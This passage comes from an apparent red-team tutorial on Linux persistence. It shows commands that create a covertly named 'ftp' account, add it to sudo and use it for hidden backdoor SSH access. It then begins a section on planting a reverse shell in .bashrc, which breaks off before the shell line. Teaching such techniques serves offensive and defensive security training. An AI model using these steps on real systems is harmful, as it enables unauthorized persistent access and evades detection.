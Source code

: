To avoid detection, we will generate a user account with a covert name. In this example, we will establish a user account named "ftp" to merge with service accounts.

Note: You will require “root” privileges in order to create a new user account on Linux systems.

We can create the user account on the target by running the following command:

```bash
useradd  -m -s /bin/bash ftp
```

After creating the account, we will need to add the user to the “sudo” group, this will provide the user with administrative privileges, this can be done by running the following command:

```bash
usermod -aG sudo ftp
```

After adding the user account to the “sudo” group, we will need to setup a password for the account, this can be done by running the following command:

```bash
passwd ftp
```

After specifying the password, we can list out the contents of the /etc/passwd file to confirm that the user account has been added.

![](../../assets/img/redteam/pt5.png)

You can now authenticate with the new user account via SSH password authentication, alternatively, you can also add the ssh public key we generated in the first section to the “authorized\_keys” file in the user account’s home password.

After authenticating with the server via SSH, we can confirm that the user account has administrative privileges by using the sudo command.

![](../../assets/img/redteam/pt6.png)

As shown in the preceding screenshot, the user account has administrative privileges and can run any command on the system without accessing or interacting with a “root” account.

This account can be used for backdoor access whenever you want to avoid using the “root” account or any other legitimate user accounts on the target system and ensures that you have overt access to the target.

Unix Shell Configuration Modification
--

This persistence technique will involve adding a bash reverse command that will connect back to our netcat listener in a user account’s .bashrc file. The .bashrc file is a config file that is used to customize bash and is executed when a user logs in with the bash shell.

The first step will involve opening the .bashrc file with a text editor This can be done by running the following command:

```bash
nano ~/.bashrc
```
